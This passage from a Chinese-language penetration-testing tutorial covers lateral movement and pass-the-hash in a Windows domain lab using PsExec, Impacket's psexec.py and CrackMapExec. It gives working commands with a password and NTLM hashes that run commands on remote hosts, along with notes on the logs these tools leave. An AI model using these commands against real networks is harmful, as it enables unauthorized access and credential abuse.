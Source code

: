 ### psexec

当然也少不了我们的 **psexec** 大杀器，这是在微软官方提供的一个 PsTools 工具包里面，虽然不用做免杀，但是会在系统日志中留下记录。

官方的下载地址：[PsExec - Windows Sysinternals](https://link.zhihu.com/?target=https%3A//docs.microsoft.com/zh-cn/sysinternals/downloads/psexec)

PsExec 的基本原理是：通过管道在远程目标主机上创建一个 psexec 服务，并在本地磁盘中生成一个名为”PSEXESVC“的二进制文件，然后通过 psexec 服务运行命令，运行结束后删除服务。由于创建或删除服务时会产生大量的日志，可以在攻击溯源时通过日志反推攻击流程。

> 需要远程系统开启 admin 共享（默认是开启的），原理是基于 IPC 共享，目标需要开放 445 端口和 admin 在使用 IPC 连接目标系统后，不需要输入账户和密码。  

使用方法：

```
PsExec.exe \\172.16.0.105 -u hack.lab\lucky -p p@ssw0rd cmd /c "ipconfig"

```

因为官方的工具只支持明文建立链接，所以我们可以使用 python 版本的，也是在 Impacket 工具包中的使用方法如下：

```
psexec.py hack.lab/lucky@172.16.0.105 -hashes 'aad3b435b51404eeaad3b435b51404ee:de26cce0356891a4a020e7c4957afc72'

```

结果如下图：

![](https://pic2.zhimg.com/v2-e621b4f8fbfc1ec029bebaf36813a6f5_r.jpg)

### CrackMapExec

上面在获取 hash 的时候也有介绍一点，现在 pth 也可以利用到这款工具。本节安装在 kali 选的是 Linux，其他版本可以到 GitHub 上下载 [CrackMapExec](https://link.zhihu.com/?target=https%3A//github.com/byt3bl33d3r/CrackMapExec)

安装：

```
sudo apt install crackmapexec

```

使用方法也很简单，执行以下命令即可：

```
crackmapexec smb 172.16.0.106 -u testuser -H de26cce0356891a4a020e7c4957afc72 -x whoami -d hack.lab

```

如图所示：

![](https://pic2.zhimg.com/v2-80afa79b645092a1d401a246d0646389_r.jpg)

Pass The Key
------------

在 2014 年微软终于发布了更新补丁 kb2871997，禁止本地管理员账户用于远程连接，这样就无法以本地管理员用户的权限执行 wmi、PSEXEC、schtasks、at 和访问文件共享。

